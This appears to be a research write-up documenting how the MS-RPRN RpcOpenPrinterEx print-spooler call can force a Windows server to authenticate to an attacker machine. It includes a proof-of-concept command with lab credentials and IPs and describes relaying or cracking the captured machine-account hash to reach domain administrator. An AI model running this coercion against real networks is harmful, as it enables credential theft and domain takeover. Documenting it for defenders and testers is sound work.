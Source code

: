 # MS-RPRN - Remote call to RpcOpenPrinterEx (opnum 69)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **Function name**: [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff)

 - **Function operation number**: `69`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcOpenPrinterEx('192.168.2.51\x00', 'test\x00', 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcOpenPrinterEx(
    [in, string, unique] STRING_HANDLE pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired,
    [in] SPLCLIENT_CONTAINER* pClientInfo
);
```

 - **pPrinterName**: A `STRING_HANDLE` (section 2.2.1.1.7) for a printer connection, printer object, server object, job object, port object, or port monitor object. For opening a server object, this parameter MUST adhere to the specification in Print Server Name Parameters (section 3.1.4.1.4); for opening all other objects, it MUST adhere to the specification in Printer Name Parameters (section 3.1.4.1.5).


 - **pHandle**: A pointer to a `PRINTER_HANDLE` (section 2.2.1.1.4) that MUST receive the RPC context handle [C706] to the object identified by the `pPrinterName` parameter.


 - **pDatatype**: A pointer to a string that specifies the data type to be associated with the printer handle. This parameter MUST adhere to the specification in Datatype Name Parameters (section 3.1.4.1.1).


 - **pDevModeContainer**: A pointer to a `DEVMODE_CONTAINER` structure. This parameter MUST adhere to the specification in `DEVMODE_CONTAINER` Parameters (section 3.1.4.1.8.1).


 - **AccessRequired**: The access level that the client requires for interacting with the object to which a handle is being opened. The value of this parameter is one of those specified in Access Values (section 2.2.3.1). For rules governing access values, see section 2.2.4.1. If no specific access level is requested, the server MUST assume a generic read access level.

 - **pClientInfo**: A pointer to a `SPLCLIENT_CONTAINER` (section 2.2.1.2.14) structure. This parameter MUST adhere to the specification in `SPLCLIENT_CONTAINER` Parameters (section 3.1.4.1.8.8). The value of the Level member of the container that is pointed to by `pClientInfo` MUST be `0x00000001`.


## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1

 - Documentation of function `RpcOpenPrinterEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff